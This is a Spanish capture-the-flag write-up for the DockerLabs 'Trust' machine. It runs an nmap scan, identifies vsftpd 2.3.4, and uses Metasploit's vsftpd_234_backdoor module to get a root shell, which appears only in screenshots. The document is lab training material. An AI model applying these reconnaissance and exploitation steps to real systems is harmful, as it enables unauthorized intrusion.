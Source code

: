 [[Writeups]]
#Writeups #VeryEasy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

escaneamos todos los puertos :
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.40 seconds
```

Parece que solo hay un servicio ftp, vamos a hacerle un escaneo mas profundo a este servicio:
```bash
❯ nmap -p21 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds
```
POr el escaneo y las pruebas que hago manuales, no podemos entrar como anonymous, por lo unico que nos quedaría para este servicio es ver si la version **vsftpd 2.3.4** que tiene es vulnerable.

En mi caso usare metasploit, así que arrancamos el framework con msfconsole:


```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

y buscamos la version del servicio ftp:
```bash
[msf](Jobs:0 Agents:0) >> search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
```

parece que existe una vulnerabilidad que nos puede permitir ejecutar comandos a través de un backdoor del servicio, vamos a usarlo y configurarlo a ver si da resultado:

![msfcFrHack.png](assets/msfcFrHack.png)

y nos da una shell con root:

![rootFirst.png](assets/rootFirst.png)

Con esto ya hemos comprometido la maquina.